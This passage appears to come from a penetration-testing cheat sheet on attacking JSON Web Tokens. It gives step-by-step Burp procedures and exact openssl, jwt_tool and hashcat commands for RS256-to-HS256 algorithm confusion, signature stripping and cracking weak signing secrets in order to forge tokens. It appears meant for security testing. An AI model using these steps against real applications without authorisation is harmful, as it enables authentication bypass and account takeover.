 ```python
5. Change you Payload value to desire with the token that worked and Done!
```

3. ****Change algorithm from RS256 to HS256****

```python
Note: This Attack will convert the workflow from Asymmetric to Symmetric encryption and now we can sign the new tokens with the same public key.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Get the Public key from the Application (pubkey.pem file) using below commands.
		"openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem"
		"openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem"
																OR
		"openssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout"
4. Then use below command to generate JWT token.
		"python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem"
5. Use the generated token in the request and try changing payload.
6. Done, Forward the request.

* This will work when web app support both algorithm.
```

4. ****Signature not being checked****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Tab or JOSEPH.
4. Change Payload section and Remove the Signature completely or try changing somecharacters in signature
5. Done, Forward the Request.
```

5. ****Crack the secret key****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
																			OR
3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force" 
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
																			OR
3. Use Jwt_Tool to crack the secret key using below command:
			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
5. Done, Use the generated token in request and forward the request.

* You can also find any leaking secret key in jwt.json config file.
```
